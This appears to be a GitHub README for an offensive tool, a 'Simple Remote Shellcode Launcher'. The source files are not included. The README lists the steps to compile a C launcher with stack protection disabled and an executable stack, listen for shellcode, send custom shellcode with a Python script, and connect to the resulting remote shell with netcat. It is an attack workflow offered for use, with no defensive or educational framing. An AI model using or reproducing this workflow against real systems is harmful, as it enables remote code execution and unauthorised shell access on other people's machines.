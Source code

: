 # Simple Remote Shellcode Launcher
<img src="screenshot.png" hight=400>

How To Use
=
## Compile C file
```
gcc -fno-stack-protector -z execstack launcher.c -o launcher
```
## Listen To Get Shellcode
```
chmod +x launcher
./launcher
```
## Send Shellcode
```
python sender.py
```
## Connect To Client
```
nc -v <HOST> <PORT>
```
## Notes
#### You can change port connection in files and set custom shellcode in ```sender.py``` file.
